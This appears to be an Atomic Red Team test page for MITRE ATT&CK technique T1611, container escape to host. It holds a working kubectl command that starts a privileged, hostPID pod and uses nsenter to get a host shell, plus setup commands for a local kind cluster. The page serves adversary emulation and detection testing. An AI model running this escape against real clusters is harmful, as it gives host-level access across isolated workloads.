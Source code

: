 # T1611 - Escape to Host
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1611)
<blockquote>Adversaries may break out of a container to gain access to the underlying host. This can allow an adversary access to other containerized resources from the host level or to the host itself. In principle, containerized resources should provide a clear separation of application functionality and be isolated from the host environment.(Citation: Docker Overview)

There are multiple ways an adversary may escape to a host environment. Examples include creating a container configured to mount the host’s filesystem using the bind parameter, which allows the adversary to drop payloads and execute control utilities such as cron on the host, and utilizing a privileged container to run commands on the underlying host.(Citation: Docker Bind Mounts)(Citation: Trend Micro Privileged Container)(Citation: Intezer Doki July 20) Gaining access to the host may provide the adversary with the opportunity to achieve follow-on objectives, such as establishing persistence, moving laterally within the environment, or setting up a command and control channel on the host.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Deploy container using nsenter container escape](#atomic-test-1---deploy-container-using-nsenter-container-escape)


<br/>

## Atomic Test #1 - Deploy container using nsenter container escape
In this escape `kubectl` is used to launch a new pod, with a container that has the host pids mapped into the container (`hostPID:true`). It uses the alpine linux container image. It runs with privilege on the host (`privileged:true`). When the container is launched the command `nsenter --mount=/proc/1/ns/mnt -- /bin/bash` is ran. Since the host processes have been mapped into the container, the container enters the host namespace, escaping the container.

Additional Details:
- https://twitter.com/mauilion/status/1129468485480751104
- https://securekubernetes.com/scenario_2_attack/

**Supported Platforms:** Linux


**auto_generated_guid:** 0b2f9520-a17a-4671-9dba-3bd034099fff






#### Attack Commands: Run with `sh`! 


```sh
kubectl --context kind-atomic-cluster run atomic-nsenter-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

#### Cleanup Commands:
```sh
kubectl --context kind-atomic-cluster delete pod atomic-escape-pod
```



#### Dependencies:  Run with `sh`!
##### Description: Verify docker is installed.
##### Check Prereq Commands:
```sh
which docker
```
##### Get Prereq Commands:
```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```
##### Description: Verify docker service is running.
##### Check Prereq Commands:
```sh
sudo systemctl status docker
```
##### Get Prereq Commands:
```sh
sudo systemctl start docker
```
##### Description: Verify kind is in the path.
##### Check Prereq Commands:
```sh
which kind
```
##### Get Prereq Commands:
```sh
curl -Lo ./kind https://kind.sigs.k8s.io/dl/v0.10.0/kind-linux-amd64
chmod +x ./kind
mv kind /usr/bin/kind
```
##### Description: Verify kind-atomic-cluster is created
##### Check Prereq Commands:
```sh
sudo kind get clusters
```
##### Get Prereq Commands:
```sh
sudo kind create cluster --name atomic-cluster
```
##### Description: Verify kubectl is in path
##### Check Prereq Commands:
```sh
which kubectl
```
##### Get Prereq Commands:
```sh
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x ./kubectl
mv kubectl /usr/bin/kubectl
```




<br/>
